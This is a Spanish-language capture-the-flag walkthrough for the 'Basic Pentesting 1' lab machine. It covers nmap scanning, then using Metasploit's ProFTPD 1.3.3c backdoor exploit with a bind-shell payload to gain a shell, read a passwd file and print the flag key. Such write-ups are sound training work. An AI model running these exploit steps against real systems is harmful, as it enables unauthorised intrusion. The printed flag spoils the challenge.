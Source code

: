 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=530&height=70&lines=Basic_Pentesting_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/basic-pentesting-1,216/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Basic-pentesting-1?q=%2Fbasic_pentesting_1&lang=es

<h1 align="center"></h1>

</br>

- *Paso 1:* Escanear todos los puertos que están abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv ctf04.root-me.org
```
![1](https://user-images.githubusercontent.com/75953873/172961150-48b8c567-3639-4b18-af1d-7e9bc11889f4.png)

Puertos Abiertos: [21,22,80]

- *Paso 2:* Detección de servicios y su respectiva versión. 
```
nmap -p 21,22,80 -sV ctf04.root-me.org
```
![2](https://user-images.githubusercontent.com/75953873/172961507-2b06c2d6-c57e-411d-9b03-bc9c575c8644.png)

Objetivo: Puerto 21 **->** Servicio FTP **->** Versión **->** ProFTPD 1.3.3c

- *Paso 3:* Búsqueda de exploit y configuración con Metasploit.
```
msfconsole
search ProFTPD 1.3.3c
``` 
![3](https://user-images.githubusercontent.com/75953873/172962236-7d4263ac-aa91-470f-9383-1c15028ebffc.png)

Seleccionar exploit:
```
use exploit/unix/ftp/proftpd_133c_backdoor
``` 

Obtener IP de la máquina a través de un ping:
```
ping -c 2 ctf04.root-me.org
```
![4](https://user-images.githubusercontent.com/75953873/172962461-a82db2a0-7a7a-442a-82cd-fc872ca0e0c6.png)

**IP:** 212.129.29.186

Configurar exploit (RHOSTS):
```
set RHOSTS 212.129.29.186 
```
![5](https://user-images.githubusercontent.com/75953873/172962563-26bb8f18-dc3a-47ee-a92f-246874366a7d.png)

Seleccionar payload:
```
set payload cmd/unix/bind_perl
```
![6](https://user-images.githubusercontent.com/75953873/172962786-257bbd0d-e119-4f03-9857-73b16ad4d200.png)

- *Paso 4:* Ejecutar exploit y obtener acceso.
```
exploit
``` 
![7](https://user-images.githubusercontent.com/75953873/172962925-a7d9f6e4-416b-4423-b2d1-ca5eeebbe729.png)

Localizar fichero `passwd` y extraer flag (key):
```
ls
cat passwd
``` 
![8](https://user-images.githubusercontent.com/75953873/172963153-b2d7dac3-f960-4bfc-ab86-ba80d8b4e449.png)

**Key:** b5fc9e0773f9596578e1ff689109c960

![8](https://user-images.githubusercontent.com/75953873/172520842-29a1669f-f89d-44b4-a818-297d7b1b472f.png)
